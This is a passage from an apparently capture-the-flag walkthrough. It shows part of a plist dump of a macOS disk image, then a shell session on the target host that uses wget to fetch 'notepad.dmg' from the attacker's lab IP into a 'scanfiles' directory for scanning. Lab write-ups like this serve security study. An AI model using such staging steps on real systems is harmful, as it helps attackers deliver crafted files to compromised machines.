 ```
                                <key>Name</key>
                                <string>disk image (Apple_HFS : 2)</string>
                        </dict>
                        <dict>
                                <key>Attributes</key>
                                <string>0x0050</string>
                                <key>CFName</key>
                                <string> (Apple_Free : 3)</string>
                                <key>Data</key>
                                <data>...[snip]...</data>
                                <key>ID</key>
                                <string>2</string>
                                <key>Name</key>
                                <string> (Apple_Free : 3)</string>
                        </dict>
                </array>
                <key>plst</key>
                <array>
                        <dict>
                                <key>Attributes</key>
                                <string>0x0050</string>
                                <key>Data</key>
                                <data>...[snip]...</data>
                                <key>ID</key>
                                <string>0</string>
                                <key>Name</key>
                                <string></string>
                        </dict>
                </array>
        </dict>
</dict>
</plist>

```

That’s very long. I’ll note two `key` values, `blkx` and `plist`, each having an `<array>` with a `<dict>` inside..

#### Upload and Scan

I’ll upload this file into the `scanfiles` directory:

```

sbrown@snoopy:~/scanfiles$ wget 10.10.14.6/notepad.dmg
--2023-05-10 20:47:58--  http://10.10.14.6/notepad.dmg
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10471167 (10.0M) [application/x-apple-diskimage]
Saving to: ‘notepad.dmg’

notepad.dmg                                          100%[==============>]   9.99M  8.53MB/s    in 1.2s    

2023-05-10 20:47:59 (8.53 MB/s) - ‘notepad.dmg’ saved [10471167/10471167]

```
